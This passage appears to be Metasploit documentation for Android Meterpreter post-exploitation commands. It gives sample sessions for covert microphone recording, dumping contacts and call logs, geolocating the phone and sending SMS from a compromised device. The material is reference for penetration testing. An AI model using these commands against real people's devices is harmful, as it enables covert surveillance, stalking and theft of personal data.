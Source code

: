 The `record_mic` command records audio. Good for listening to a phone conversation, as well as
other uses. Example:

```
meterpreter > record_mic -d 20
[*] Starting...
[*] Stopped
Audio saved to: /Users/user/rapid7/msf/YAUtubCR.wav
```

**activity_start**

The `activity_start` command is an execute command by starting an Android activity from a URI
string.

**check_root**

The `check_root` command detects whether your payload is running as root or not. Example:

```
meterpreter > check_root
[*] Device is not rooted
```

**dump_calllog**

The `dump_calllog` command retrieves the call log from the Android device.

**dump_contacts**

```
meterpreter > dump_contacts
[*] Fetching 5 contacts into list
[*] Contacts list saved to: contacts_dump_20160308155744.txt
```

**geolocate**

The `geolocate` commands allows you to locate the phone by retrieving the current lat-long
using geolocation.

**wlan_geolocate**

The `wlan_geolocation` command allows you to locate the phone by retrieving the current
lat-long using WLAN information. Example:

```
meterpreter > wlan_geolocate
[*] Google indicates the device is within 150 meters of 30.*******,-97.*******.
[*] Google Maps URL:  https://maps.google.com/?q=30.*******,-97.*******
```

**send_sms**

The `send_sms` command allows you to send an SMS message. Keep in mind the phone will keep a
copy of it, too.

```
meterpreter > send_sms -d "2674554859" -t "hello"
[+] SMS sent - Transmission successful
```
